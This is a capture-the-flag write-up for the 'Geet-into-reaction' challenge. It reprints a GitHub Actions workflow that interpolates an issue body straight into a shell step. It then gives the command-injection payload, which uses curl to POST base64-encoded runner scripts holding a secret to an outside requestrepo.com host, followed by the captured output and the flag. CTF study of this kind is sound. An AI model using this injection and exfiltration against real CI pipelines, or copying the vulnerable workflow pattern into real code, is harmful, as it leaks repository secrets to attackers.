




# Geet-into-reaction

## The Problem

Points: 500

Rating: hard

Author:

Flavor Text:

```
Communication is required skill! Can you communicate between different jobs and succeed? Checkout how we are communicating between jobs through issues: https://github.com/hackpack-ncsu/geet-into-reaction
```


## Solution

This chalenge is similar to [Geet-into-action](../Geet-into-ation) where we are working out how to inject into the action script process some date export


the important bit here is in the parse:
```
name: Parse Issue Body

on: [issues]
permissions:
  issues: write
jobs:
  parse_body:
    if: ${{ startsWith(github.event.issue.title, '[parse]')}}
    runs-on: ubuntu-latest
    timeout-minutes: 3
    permissions:
      issues: write
    outputs:
      parsed_link: ${{ steps.parse.outputs.parsed_link }}
    steps:
    - name: Parsing the issue body
      id: parse
      run: |
        echo "${{ github.event.issue.body }}" > body
        cat body
        grep "^Link:" body | cat > temp
        cat temp
        sed 's/Link: //' temp > parsed_link
        echo ::set-output name=parsed_link::$(cat parsed_link)
  process:
    runs-on: ubuntu-latest
    timeout-minutes: 3
    needs: parse_body
    steps:
      - run: echo ${{ secrets.FLAG2 }}
      - run: |
          echo ${{ needs.parse_body.outputs.parsed_link }}
  end:
    if: ${{ always() }}
    runs-on: ubuntu-latest
    steps:
    - run: echo https://api.github.com/repos/${{github.repository}}/issues/${{github.event.issue.number}}
    - run: |
        curl \
        -X PATCH \
        -H "Authorization: token ${{ github.token }}" \
        -H "Accept: application/vnd.github.v3+json" \
        https://api.github.com/repos/${{github.repository}}/issues/${{github.event.issue.number}} \
        -d '{"title":"This is new title", "body": "action run finished"}'

```
so we have to create the post with [parse] at the start of the issue title

and something that can be parsed as a link using "Link:" 

and then the webpost using the bash history as the source. this caused the output to reformat so it passes

there is however no easy file to grab as the command we are interested in" echo ${{ secrets.FLAG2 }}" only prints the output of the env variable this time around. 

After some research I found that remotely accessing the shell history and I got nothing but errors trying to run "history" as the command. I found this nugget: cat /home/runner/work/_temp/*.sh and included a simple encoding |base64 so that the commands wont just run again and can be dumped into the POST body(I am not 100% sure this ended up being necessary but I watched as someone else tryed it)

I also learned about another easy site tool http://requestrepo.com/, this one is a little better at keeping the logs to the user that generated the url.



```
"; echo "Link: 5; curl -X POST -d "$(echo '"$(cat /home/runner/work/_temp/*.sh|base64)"')" http://cvji9loh.requestrepo.com/
```

I followed the git action log to make sure the formating worked. This did take some trial and error to get correct.



this resulted in a post to our url




decode it and 
```
ZWNobyBmbGFne2YwMTEwd190aDNfZmwwd19vZl9kQHRAfWVjaG8gNTsgY3VybCAtWCBQT1NUIC1kICIkKGNhdCAvaG9tZS9ydW5uZXIvd29yay9fdGVtcC8qLnNofGJhc2U2NCkiIGh0dHA6Ly9jdmppOWxvaC5yZXF1ZXN0cmVwby5jb20vCg==
```


## Flag

```
flag{f0110w_th3_fl0w_of_d@t@}
```

